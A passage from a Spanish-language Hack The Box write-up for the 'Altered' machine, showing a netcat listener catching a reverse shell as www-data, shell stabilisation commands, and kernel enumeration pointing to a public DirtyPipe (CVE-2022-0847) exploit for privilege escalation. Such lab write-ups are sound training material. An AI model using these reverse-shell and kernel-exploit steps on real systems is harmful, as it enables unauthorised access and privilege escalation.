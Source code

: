 - Vamos a ponernos en escucha.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/altered/35.png">
</p>

- Recibimos la shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.159] 55000
bash: cannot set terminal process group (931): Inappropriate ioctl for device
bash: no job control in this shell
www-data@altered:/srv/altered/public$ whoami
whoami
www-data
www-data@altered:/srv/altered/public$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@altered:/srv/altered/public$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@altered:/srv/altered/public$ export TERM=xterm
```

## Escalada de Privilegios

- La versión de `kernel` es vulnerable <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>.

```bash
www-data@altered:/$ uname -a
Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
www-data@altered:/$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.4 LTS
Release:	20.04
Codename:	focal
www-data@altered:/$ 
```
